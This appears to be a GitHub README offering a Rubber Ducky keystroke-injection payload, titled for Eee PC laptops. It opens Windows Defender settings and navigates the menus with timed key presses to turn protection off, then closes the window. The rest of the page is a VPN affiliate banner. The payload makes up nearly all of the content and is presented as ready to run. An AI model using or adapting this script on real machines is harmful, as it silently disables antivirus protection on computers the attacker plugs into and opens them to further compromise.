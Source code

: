 # Rubber-Ducky-Script-Disable-Windows-Defender-on-Eee-Pc

A simple Script for Rubber Ducky to disable windows defender on small screen laptops


Payload:


DELAY 1000
<br>
CONTROL ESCAPE
<br>
DELAY 1000
<br>
STRING windows defender settings
<br>
DELAY 1000
<br>
ENTER
<br>
REM here start the windows defender menù
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
TAB
<br>
DELAY 1000
<br>
DOWNARROW
<br>
REM close the menu
<br>
DELAY 1000
<br>
ALT F4




</BR>

<!-- Banner -->
<div align="center">
<a href="https://www.purevpn.com/order-now.php?aff=44922&amp;a_bid=bbd0f893" target="_blank" ><img src="https://affiliates.purevpn.com/accounts/default1/6hb82wqa2l/bbd0f893.jpg" alt="Best VPN" title="Best VPN" width="728" height="90" /></a>
</BR></BR>
</div>



